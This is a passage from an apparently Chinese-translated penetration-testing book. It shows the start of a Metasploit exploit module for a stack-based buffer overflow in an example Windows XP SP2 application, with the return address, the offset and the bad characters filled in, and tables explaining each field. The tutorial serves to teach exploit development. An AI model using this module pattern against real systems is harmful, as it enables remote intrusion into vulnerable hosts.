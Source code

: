 我们可以看到我们拥有开发 Metasploit 模块的所有基本要素。这是因为在 Metasploit 中，有效载荷生成是自动化的，并且也可以随时更改。所以，让我们开始吧：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'Stack Based Buffer Overflow Example', 
      'Description'    => %q{ 
         Stack Based Overflow Example Application Exploitation Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
      'space' => 1000, 
      'BadChars' => "\x00\xff", 
      }, 
      'Targets' => 
       [ 
             ['Windows XP SP2',{ 'Ret' => 0x71AB9372, 'Offset' => 520}] 
       ], 
      'DisclosureDate' => 'Mar 04 2018' 
   )) 
   register_options( 
   [ 
         Opt::RPORT(200) 
   ]) 
  end 
```

在编写代码之前，让我们看一下我们在这个模块中使用的库：

| **包含语句** | **路径** | **用途** |
| --- | --- | --- |
| `Msf::Exploit::Remote::Tcp` | `/lib/msf/core/exploit/tcp.rb` | TCP 库文件提供基本的 TCP 功能，如连接、断开连接、写入数据等 |

与我们在第十二章中构建模块的方式相同，*重新发明 Metasploit*，利用模块首先包括必要的库路径，然后包括来自这些路径的所需文件。我们将模块类型定义为`Msf::Exploit::Remote`，表示远程利用。接下来，我们有`initialize`构造方法，在其中定义了名称、描述、作者信息等。然而，我们可以看到`initialize`方法中有大量新的声明。让我们看看它们是什么：

| **声明** | **值** | **用法** |
| --- | --- | --- |
| `平台` | `win` | 定义了利用将要针对的平台类型。win 表示利用将可用于基于 Windows 的操作系统。 |
| `披露日期` | `2018 年 3 月 4 日` | 漏洞披露的日期。 |
| `目标` | `Ret` | 特定操作系统的`Ret`字段定义了我们在前一节中找到的 JMP ESP 地址。 |
| `0x71AB9372` |
| `目标` | `Offset` | 特定操作系统的`Offset`字段定义了在覆盖 EIP 之前填充缓冲区所需的字节数。我们在前一节中找到了这个值。 |
| `520` |
| `有效载荷` | `空间` | 在有效载荷声明中，`空间`变量定义了有效载荷可以使用的最大空间量。这相对重要，因为有时我们的空间不足以加载我们的 shellcode。 |
| `1000` |
| `有效载荷` | `BadChars` | 在有效载荷声明中，`BadChars`变量定义了在有效载荷生成过程中要避免的不良字符。声明不良字符的做法将确保稳定性，并删除可能导致应用程序崩溃或无法执行有效载荷的字节。 |
| `\x00\xff` |

